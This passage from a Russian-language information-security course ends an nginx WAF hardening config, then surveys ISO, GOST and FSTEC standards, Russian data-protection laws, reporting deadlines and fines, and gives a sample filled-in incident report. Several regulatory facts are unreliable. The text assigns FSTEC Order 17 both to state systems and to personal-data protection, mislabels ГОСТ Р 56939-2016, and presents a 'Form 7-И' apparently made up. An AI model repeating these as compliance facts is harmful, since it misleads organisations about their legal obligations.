            add_header Referrer-Policy "strict-origin-when-cross-origin" always;
            
            # Скрытие версии nginx
            server_tokens off;
            
            proxy_pass http://backend;
        }
        
        #======================================================================
        # ЛОГИРОВАНИЕ (ФСТЭК ТРЕБОВАНИЕ 8.2)
        #======================================================================
        access_log /var/log/nginx/waf_access.log;
        error_log /var/log/nginx/waf_error.log;
    }
}
```
## Список литературы
1. НКЦКИ — Методические рекомендации по реагированию на компьютерные инциденты.
2. ФСТЭК России — Требования к обнаружению, предупреждению и ликвидации последствий компьютерных атак.
3. ГОСТ Р 56939-2016 — Защита информации. Обнаружение вторжений.
4. Касперский Лаб — Руководство по реагированию на инциденты ИБ.
5. Positive Technologies — Практические рекомендации по расследованию инцидентов ИБ.
---
# Модуль 7. СТАНДАРТЫ И РЕГУЛИРОВАНИЕ В ИБ

## 7.1. Международные стандарты

| Стандарт | Область | Ключевые элементы | Применение в РФ | Сертификация |
|----------|---------|-------------------|-----------------|--------------|
| **ISO/IEC 27001** | СМИБ (Система менеджмента ИБ) | Системный подход, PDCA, оценка рисков | ГОСТ Р ИСО/МЭК 27001-2021 | Да (международная) |
| **ISO/IEC 27002** | Контрольные меры | 114 контролей, рекомендации по внедрению | Рекомендации | Нет |
| **ISO/IEC 27005** | Управление рисками ИБ | Оценка, обработка, мониторинг рисков | ГОСТ Р ИСО/МЭК 27005-2021 | Нет |
| **ISO/IEC 27017** | Облачная безопасность | Дополнительные контроли для облаков | Рекомендации | Да |
| **ISO/IEC 27018** | Защита ПДн в облаке | Конфиденциальность в облачных сервисах | Рекомендации | Да |
| **NIST CSF** | Кибербезопасность | Identify, Protect, Detect, Respond, Recover | Рекомендации | Нет |
| **NIST SP 800-53** | Контроли безопасности | 1000+ контролей для федеральных систем | Рекомендации | Нет |

## 7.2. Российские стандарты и законы

### 7.2.1. Федеральные законы

| Документ   | Суть                             | Требования                               | Штрафы      | Регулятор    |
| ---------- | -------------------------------- | ---------------------------------------- | ----------- | ------------ |
| **152-ФЗ** | Персональные данные              | Шифрование, аудит, согласие, локализация | До 10 млн ₽ | Роскомнадзор |
| **149-ФЗ** | Защита информации                | Классификация, СЗИ, обучение             | До 5 млн ₽  | ФСТЭК, ФСБ   |
| **187-ФЗ** | КИИ (критическая инфраструктура) | Категорирование, аттестация, ФСТЭК       | До 50 млн ₽ | ФСТЭК        |
| **98-ФЗ**  | Коммерческая тайна               | Режим КТ, грифы, учёт носителей          | До 5 млн ₽  | ФАС          |
| **63-ФЗ**  | Электронная подпись              | Квалифицированная/неквалифицированная ЭП | —           | Минцифры     |

### 7.2.2. ГОСТы и требования ФСТЭК

| Документ | Область | Требования | Обязательно для |
|----------|---------|------------|-----------------|
| **ГОСТ Р ИСО/МЭК 27001-2021** | СМИБ | Системный подход к ИБ | Госорганы, рекомендовано всем |
| **ГОСТ Р 34.10-2012** | Криптография | Алгоритмы цифровой подписи | Все использующие ЭП |
| **ГОСТ Р 34.11-2012** | Хеширование | Функция «Стрибог» | Все системы хеширования |
| **ГОСТ Р 34.12-2015** | Шифрование | «Кузнечик» (128 бит) | Все системы шифрования |
| **Приказ ФСТЭК №17** | СЗИ для ГИС | Требования к СЗИ для госинфосистем | ГИС (1, 2, 3 класс) |
| **Приказ ФСТЭК №21** | ПДн | Требования к защите ПДн | Операторы ПДн |
| **Приказ ФСТЭК №31** | КИИ | Требования к КИИ | Субъекты КИИ |
| **Приказ ФСБ №378** | КСЗИ | Использование криптографических средств | Все использующие шифрование |

### 7.2.3. Уровни защиты ПДн (152-ФЗ + ФСТЭК №21)

| Уровень | Тип данных | Тип системы | Требования |
|---------|------------|-------------|------------|
| **УЗ-1** | Специальные, биометрические | Автоматизированные | Максимальные (шифрование, СКЗИ, ФСТЭК 4 класс) |
| **УЗ-2** | Специальные | Автоматизированные | Высокие (шифрование, антивирус, ФСТЭК 3 класс) |
| **УЗ-3** | Иные ПДн | Автоматизированные | Средние (антивирус, контроль доступа) |
| **УЗ-4** | Иные ПДн | Неавтоматизированные | Минимальные (учёт носителей) |

## 7.3. Сравнение стандартов

| Критерий | ISO 27001 | ГОСТ 27001-2021 | 152-ФЗ | ФСТЭК №17/21 |
|----------|-----------|-----------------|--------|--------------|
| **Применение** | Международное | РФ (госсектор) | Обработка ПДн | ГИС, ПДн, КИИ |
| **Особенность** | Глобальное признание | Учёт 152-ФЗ, 149-ФЗ | Жёсткие требования к ПДн | Технические требования к СЗИ |
| **Сертификация** | Да (международная) | Да (российская) | Регистрация в Роскомнадзоре | Аттестация системы |
| **Срок действия** | 3 года | 3 года | Бессрочно (до изменений) | 3 года (аттестат) |
| **Стоимость** | $15,000-50,000 | $10,000-30,000 | $5,000-15,000 | $20,000-100,000 |

## 7.4. Процесс внедрения ISO 27001 (по ФСТЭК)


**Детальный план внедрения (12-18 месяцев):**

| Этап | Длительность | Задачи | Результат |
|------|--------------|--------|-----------|
| **1. Подготовка** | 1-2 мес. | Создание команды, обучение, анализ текущего состояния | Отчёт о текущем состоянии |
| **2. Политика ИБ** | 1-2 мес. | Разработка политик, процедур, инструкций | Комплект документов СМИБ |
| **3. Оценка рисков** | 2-3 мес. | Идентификация активов, оценка рисков по ISO 27005 | Реестр рисков, план обработки |
| **4. Внедрение мер** | 4-6 мес. | Внедрение СЗИ, настройка процессов | Рабочая система защиты |
| **5. Обучение** | 1-2 мес. | Обучение персонала, тестирование | Протоколы обучения |
| **6. Внутренний аудит** | 1-2 мес. | Проверка соответствия, корректировки | Отчёт внутреннего аудита |
| **7. Сертификация** | 2-3 мес. | Внешний аудит, получение сертификата | Сертификат ISO 27001 |

## 7.5. Отчётность в регуляторы (ФСТЭК, Роскомнадзор)

| Регулятор | Форма отчётности | Срок | Нормативный документ | Штраф за нарушение |
|-----------|------------------|------|---------------------|-------------------|
| **ФСТЭК** | Форма 7-И (инциденты) | 24 часа | Приказ ФСТЭК №17 | До 500,000 ₽ |
| **ФСТЭК** | Уведомление о категорировании КИИ | 30 дней | 187-ФЗ | До 50 млн ₽ |
| **Роскомнадзор** | Уведомление об обработке ПДн | До начала обработки | 152-ФЗ ст. 22 | До 500,000 ₽ |
| **Роскомнадзор** | Отчёт о нарушениях ПДн | 24 часа | 152-ФЗ ст. 19 | До 10 млн ₽ |
| **ФСБ** | Уведомление об использовании КСЗИ | До начала использования | Приказ ФСБ №378 | До 300,000 ₽ |
| **ФСТЭК** | Аттестат соответствия ГИС | Каждые 3 года | Приказ ФСТЭК №17 | Приостановка эксплуатации |

### 7.5.1. Форма 7-И (ФСТЭК) — пример заполнения

```markdown
# ФОРМА 7-И: ОТЧЁТ ОБ ИНЦИДЕНТЕ ИБ
# (ФСТЭК России Приказ №17)

================================================================================
ОБЩАЯ ИНФОРМАЦИЯ
================================================================================
Номер инцидента: INC-2024-0423
Дата регистрации: 15.01.2024 14:32:17 UTC
Категория по ФСТЭК: 2 (Значительный инцидент)
Приоритет: HIGH
Статус: Closed
Владелец: SOC Team Lead

================================================================================
ДЕТЕКТ
================================================================================
Источник обнаружения: SIEM (Splunk)
Правило корреляции: "PowerShell Encoded Command Execution"
Уровень доверия: 85%

================================================================================
IMPACT (ВОЗДЕЙСТВИЕ)
================================================================================
Систем скомпрометировано: 1
Данных эксфильтровано: Нет
Учётных записей скомпрометировано: 1
Финансовый ущерб: 0 руб. (предотвращён)

================================================================================
ОТЧЁТНОСТЬ (ФСТЭК)
================================================================================
Отчёт в ФСТЭК: Требуется (Категория 2)
Срок: 24 часа с момента обнаружения
Статус: Отправлен 16.01.2024 10:00:00
Номер уведомления: ФСТЭК-2024-0423

================================================================================
ПОДПИСИ
================================================================================
SOC Manager: _________________ / И.И. Иванов / 16.01.2024
CISO: _________________ / П.П. Петров / 16.01.2024
Ответственный за ФСТЭК: _________________ / С.С. Сидоров / 16.01.2024
================================================================================
```
## Список литературы 
1. Федеральный закон №149-ФЗ — _Об информации, информационных технологиях и защите информации_.
2. Федеральный закон №152-ФЗ — _О персональных данных_.
3. Федеральный закон №187-ФЗ — _О безопасности критической информационной инфраструктуры РФ_.
4. Приказ ФСТЭК России №17 — Требования по защите ПДн.
5. Приказ ФСТЭК России №239 — Требования по защите КИИ.